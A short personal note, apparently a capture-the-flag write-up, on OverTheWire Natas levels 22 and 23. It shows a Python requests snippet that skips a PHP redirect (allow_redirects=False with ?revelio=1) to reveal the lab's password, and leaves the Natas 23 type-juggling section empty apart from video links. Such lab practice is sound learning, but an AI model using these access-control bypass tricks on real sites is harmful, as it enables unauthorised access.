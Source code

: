 
2024-07-22 17:21

Source: #natas  #web #py 
### Natas 22 - Disallow Redirects

- on inspecting the source code we find that we have some `php` code at the start that checks if `revelio` is set to 1 
- then it redirects us to the current page 
- in order to stop the redirection we add `allow_redirects =False` in our request
- final code will look as following - 

```
url = 'http://natas22.natas.labs.overthewire.org/?revelio=1'
session = requests.Session()
response = session.get(url,auth=(username,password),allow_redirects=False)
```
### Natas 23 - PHP Type Juggling



### References

N22 - https://www.youtube.com/watch?v=NVuG0Pps-xk
N23 - https://www.youtube.com/watch?v=cB2gBPiL8qE

Type Juggling - https://www.youtube.com/watch?v=-1kftH6t5VA